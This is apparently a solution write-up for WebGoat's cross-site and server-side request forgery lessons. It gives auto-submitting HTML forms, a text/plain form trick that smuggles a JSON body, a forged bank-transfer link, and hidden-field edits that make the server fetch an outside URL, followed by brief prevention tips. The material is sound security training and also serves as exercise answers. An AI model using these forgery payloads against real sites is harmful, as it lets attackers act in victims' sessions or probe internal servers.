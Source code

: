 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

- [A8:2013 Request Forgeries](#a82013-request-forgeries)
  - [Cross-Site Request Forgeries](#cross-site-request-forgeries)
  - [Server-Side Request Forgery](#server-side-request-forgery)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# A8:2013 Request Forgeries

## Cross-Site Request Forgeries

### 1. What is a Cross-site request forgery?

### 2. CSRF witha GET request

`<a href="http://bank.com/transfer?account_number_from=123456789&account_number_to=987654321&amount=100000">View my Pictures!</a>`

### 3. Basic GET CSRF Exercise

```xml
<form 
	method="POST" 
	target="_blank" 
	action="http://localhost:8080/WebGoat/csrf/basic-get-flag">

    <input name="csrf" type="hidden" value="false">
    <input type="submit" name="submit">

</form>
```

### 4. Post a review on someone else’s behalf

```xml
<form 
	method="POST" 
	action="http://localhost:8080/WebGoat/csrf/review">

	<input 
		name="reviewText" 
		placeholder="Add a Review" 
		type="text">
	<input 
		name="stars" 
		type="text">
	<input 
		type="hidden" 
		name="validateReq" 
		value="2aa14227b9a13d0bede0388a7fba9aa9">
	<input 
		type="submit" 
		name="submit" 
		value="Submit review">
</form>
```

### 5. Automatic support from frameworks

Define a separate cookie for CSRF protection, do not reuse the session cookie.
Remember the session cookie should always be defined with http-only flag.

### 6. But I only have JSON APIs and no CORS enabled, how can those be susceptible to CSRF?

Do not rely on `application/json` content type but implement a proper CSRF protection.

### 7. CSRF and content-type

```
POST /csrf/feedback/message HTTP/1.1

{
  "name"    : "WebGoat",
  "email"   : "webgoat@webgoat.org",
  "content" : "WebGoat is the best!!"
}
```

```xml
<form
	name="postform"
	method="post"
	action="http://localhost:8080/WebGoat/csrf/feedback/message/"
	enctype="text/plain">
	
	<input 
		type="hidden" 
		name='
		{
			"name":"WebGoat",
			"email":"webgoat@webgoat.org",
			"content":"WebGoat is the best!!",
			"subject":"service'
		value='"}'>
</form>

<script type="text/javascript">
	document.postform.submit();
</script>
```

### 8. Login CSRF attack

The attacker creates an account on the vulnerable site.
The attacker createa CSRF login form that is served to the victim.
The victim inconciously logins to the vulnerable site.
The victim's activities are logged for the attacker account.
Afterwards the attacker can gather information on the victim activity on the vulnerable site.

### 9. CSRF Impact & Solutions

- same site cookie attribute
- built-in support from framework

## Server-Side Request Forgery

### 1. Concept

### 2. Change the URL to display Jerry

Change

```xml
<input id="url" type="hidden" name="url" value="images/tom.jpg">
```

to

```xml
<input id="url" type="hidden" name="url" value="images/jerry.jpg">
```

### 3. Change the URL to display the Interface Configuration with ifconfig.pro

Change

```xml
<input id="url" type="hidden" name="url" value="images/tom.jpg">
```

to

```xml
<input id="url" type="hidden" name="url" value="http://ifconfig.pro">
```

### 4. Prevent

- whitelist of allowed domains, resources and protocols from where the web server can fetch resources
- input validation
- avoid user input for resources to be fetched
